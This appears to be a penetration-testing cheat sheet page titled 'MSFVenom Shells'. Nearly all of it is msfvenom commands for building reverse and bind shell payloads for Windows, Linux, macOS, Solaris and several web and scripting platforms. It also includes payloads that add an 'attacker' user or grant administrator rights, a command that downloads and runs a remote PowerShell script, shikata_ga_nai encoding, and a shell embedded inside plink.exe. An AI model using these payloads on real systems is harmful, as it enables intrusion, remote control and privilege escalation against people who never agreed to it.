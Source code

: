 ```yaml
---
title: "MSFVenom Shells"
draft: false
images: []
menu:
  docs:
    parent: "Shells"
weight: 3
toc: true
---
```


## Windows

### Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### Bind Shell
```
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### Create User
```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### CMD Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### Execute Command
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
```
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### Encoder
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### Embedded inside executable
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

---
## Linux Payloads
### Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
```
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### Bind Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS (Solaris)
```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
---
## MAC Payloads
### Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
### Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
---
## Web Based Payloads
### PHP
#### Reverse shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP/x
#### Reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
### JSP
#### Reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
### WAR
#### Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
---
## Script Language payloads
### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw
```